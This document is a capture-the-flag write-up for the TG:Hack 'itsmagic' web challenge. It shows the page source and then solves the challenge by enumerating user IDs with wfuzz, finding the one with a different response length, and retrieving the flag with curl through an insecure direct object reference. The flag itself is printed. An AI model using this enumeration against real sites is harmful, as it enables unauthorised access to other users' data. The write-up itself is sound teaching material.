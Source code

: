 ![itsmagic (100 pts)](./screenshots/itsmagic.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/itsmagic_home.png)

  - __Page Source__:
    ```html
    <html>

    <head>
      <title>itsmagic</title>
      <script type="text/javascript" src="script.js"></script>
      <link rel="stylesheet" href="style.css">
    </head>

    <body onload="init()" class="orangebackground">
      <header>
        <img class="logo" src="/pictures/itsmagic_2.png" alt="itsmagic logo">
      </header>
      <div class="login-page">
        <div class="form">
          <form class="login-form">
            <input type="text" id="username" placeholder="username" />
            <input type="password" id="password" placeholder="password" />
            <input type="button" id="myBtn" value="Login" onclick="login()" />
          </form>
        </div>
      </div>
      <div class="homecontainer">
        <img src="/pictures/orange_itsmagic.jpg">
      </div>
    </body>

    </html>
    ```
  - __*/script.js*__
    ```js
    const rooturl = window.location.protocol+"//"+window.location.host+"/";

    function init() {
        ...
    }

    function login() {
        // Nothing interesting here, just trying to make task seem like 
        // it has a real login page in a hacky way
        var username = document.getElementById('username').value;

        var request = new XMLHttpRequest();
        request.open('GET', rooturl + 'login/' + username);

        request.onload = function () {
            var data = JSON.parse(this.response);
            const userid = data.userid;

            if (request.status == 200 && userid != null)
                window.location.href = rooturl + "home/" + userid;
        }

        request.send();
    }

    function home() {
        // Just selecting grades randomly to illustrate that each user 
        // has their own grades (giving the feel of a real website)

        ...

        request.send();
    }

    ```
    __Notes__:
    - The __login form__ is bogus
    - The grades generated after "logging in" is randomly generated
    - The default __userid__ after "logging in" is 1338

- __ASSUMED OBJECTIVE__: Find the __userid__ where the flag is hidden
---

## Step 1 : Find the __userid__ with the flag

1. Run __*wfuzz*__:
   ```console
   wfuzz -z range,0-9999 https://itsmagic.tghack.no/home/FUZZ

   # ==================================================================
   # ID   Response   Lines      Word         Chars          Payload
   # ==================================================================
   # ...
   # 001330:  C=200     43 L       74 W          936 Ch    "1329"
   # 001332:  C=200     43 L       74 W          936 Ch    "1331"
   # 001334:  C=200     43 L       74 W          936 Ch    "1333"
   # 001333:  C=200     43 L       74 W          936 Ch    "1332"
   # 001335:  C=200     43 L       74 W          936 Ch    "1334"
   # 001337:  C=200     43 L       74 W          936 Ch    "1336"
   # 001336:  C=200     43 L       74 W          936 Ch    "1335"
   # 001338:  C=200      0 L       10 W           76 Ch    "1337"
   # 001339:  C=200     43 L       74 W          936 Ch    "1338"
   # 001340:  C=200     43 L       74 W          936 Ch    "1339"
   # ...
   ```
   __Note__:
   - __userid 1337__ has a different content length than the rest.

2. Check __userid 1337__:
   ```console
   curl https://itsmagic.tghack.no/home/1337
   ```
   ```html
   Congrats, y0ur s0 1337! </br>TG19{Direct object reference might B insecure!}
   ```
---

## FLAG : __TG19{Direct object reference might B insecure!}__